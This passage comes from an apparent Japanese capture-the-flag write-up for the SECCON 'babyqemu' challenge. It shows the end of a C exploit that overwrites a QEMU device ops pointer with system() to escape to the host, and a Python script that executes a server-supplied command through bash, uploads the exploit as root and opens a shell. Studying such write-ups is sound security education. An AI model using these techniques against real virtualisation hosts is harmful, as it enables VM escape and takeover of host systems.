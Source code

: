 ```c
  write_at_u64(1, libc_leak +
                      0x0000000000058740); // overwrite system to `write` ops
  printf("[+] overwrite babyops(write). host's system = 0x%lx\n",
         libc_leak + 0x0000000000058740);

  write_at_u64(-25, heap_leak); // overwrite ops pointer!

  mmio_base[0xdead] = 0xbeef; // fire!!

  // Clean up
  munmap((void *)mmio_base, MMIO_REGION_SIZE);
  close(fd);

  return EXIT_SUCCESS;
}
```

余談だが、バイナリを小さくしても転送に失敗してしまい手こずった。gzipが使えたの、圧縮したら行けた。

```python
from ptrlib import *
import time
import base64
import os
import subprocess

def run(cmd):
    sock.sendlineafter("# ", cmd)
    sock.recvline()

with open("./exploit/main.gz", "rb") as f:
    payload = bytes2str(base64.b64encode(f.read()))

#sock = Socket("HOST", PORT) # remote

# sock = Process("./run.sh")

# sock = Socket("localhost", 3824)
sock = Socket("babyqemu.seccon.games", 3824)
command = sock.recvline()
token = subprocess.run(["bash", "-c", command.decode()], capture_output=True).stdout.decode()
 
print(f"Token: {token}")
sock.sendlineafter(b"token", token)

sock.sendlineafter(b"login", b"root")

run('cd /tmp')

logger.info("Uploading...")
for i in range(0, len(payload), 512):
    print(f"Uploading... {i:x} / {len(payload):x}")
    run('echo "{}" >> b64exp'.format(payload[i:i + 512]))
run('base64 -d b64exp > main.gz')
run('rm b64exp')
run('gzip -d main.gz')
run('chmod +x main')
run('./main')

sock.sendline("echo YOU GOT SHELL")

sock.sh()
```
